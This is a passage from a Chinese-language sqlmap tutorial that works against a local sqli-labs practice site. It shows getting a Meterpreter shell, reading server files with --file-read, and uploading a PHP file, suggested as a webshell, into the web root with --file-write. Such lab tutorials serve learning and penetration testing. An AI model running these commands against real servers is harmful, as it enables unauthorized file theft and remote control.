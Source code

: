 **然后还会提示监听的地址和端口，这里直接回车即可**

![](https://p3.ssl.qhimg.com/t01d5600ba16319fb20.png)

![](https://p2.ssl.qhimg.com/t01715275b9acc1930c.png)

**然后这里选择 payload 的类型，我们这里选择默认的 1**

which payload do you want to use?nt to use? [11563] ‘ (detected)]  
[1] Meterpreter (default)  
[2] Shell  
[3] VNC  
> 1

![](https://p3.ssl.qhimg.com/t01dc5a821ad98334e4.png)

执行完成后，如果不出问题，我们就可以获得一个 MSF 类型的 shell 了。

![](https://p1.ssl.qhimg.com/t011858b704025dfe6a.png)

### 读取服务器文件 (—file-read)

当数据库为 MySQL、PostgreSQL 或 SQL Server，并且当前用户有权限时，可以读取指定文件，可以是文本文件或者二进制文件。

```
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" 

```

![](https://p5.ssl.qhimg.com/t01b427170c4f0ab056.png)

可以看到，文件读取成功了，并且保存成了 /root/.sqlmap/output/192.168.10.1/files/c__test.txt 文件

### ![](https://p5.ssl.qhimg.com/t013ae8d3a38bbf4e30.png)

### 上传文件到数据库服务器中 (—file-write —file-dest)

当数据库为 MySQL、Postgre SQL 或者 Sql Server(通过 powershell 写入)，并且当前用户有权限向任意目录写文件的时候，可以上传文件到数据库服务器。文件可以是文本，也可以是二进制文件。

所以利用上传文件，我们可以上传一句话木马或者上传 shell 上去。

前提是我们知道网络的绝对路径

```
python2 sqlmap.py -u http://192.168.10.130/sqli-labs/Less-2/?id=1 --file-write C:\Users\mi\Desktop\1.php --file-dest "C:\phpStudy\PHPTutorial\WWW\2.php"  
```

![](https://p2.ssl.qhimg.com/t01d920ad318047b01b.png)

这里会问我们是否想验证上传成功，我们选择 y 的话，他就会读取该文件的大小，并且和本地的文件大小做比较，只要大于等于本地文件大小即说明上传功能了

![](https://p4.ssl.qhimg.com/t01b2207ac0c22f171d.png)

![](https://p1.ssl.qhimg.com/t01ec317729423cc757.png)



